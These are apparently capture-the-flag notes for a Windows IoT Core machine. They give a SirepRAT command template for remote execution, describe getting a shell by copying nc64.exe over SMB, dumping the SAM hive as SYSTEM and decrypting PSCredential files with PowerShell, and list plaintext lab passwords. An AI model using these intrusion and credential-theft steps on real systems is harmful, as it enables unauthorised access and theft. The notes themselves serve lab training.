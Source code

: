#### ++ INFO ++
-> We found Windows IoT Core
-> With RCE we dump SAM as system (Do not use `as_logged_on_user` flag)
-> User flag is stored as PSCredentials so we have to decrypt the file with the following command
	`(Import-CliXml -Path C:\Data\Users\app\user.txt).GetNetworkCredential() | fl`
-> Admin credentials are stored as PSCredentials in `C:\Data\Users\app\iot-admin.xml`

#### ++ Credentials ++
	app : mesh5143
	administrator : _1nt3rn37ofTh1nGz

#### ++ RCE on Windows IoT Core ++
	https://github.com/SafeBreach-Labs/SirepRAT
	Copying a nc64.exe binary with an smb share we can get a shell executing the script as the following (DO NOT USE as_logged_on_user FLAG):
		python SirepRAT.py <IP> LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c <Command here>"
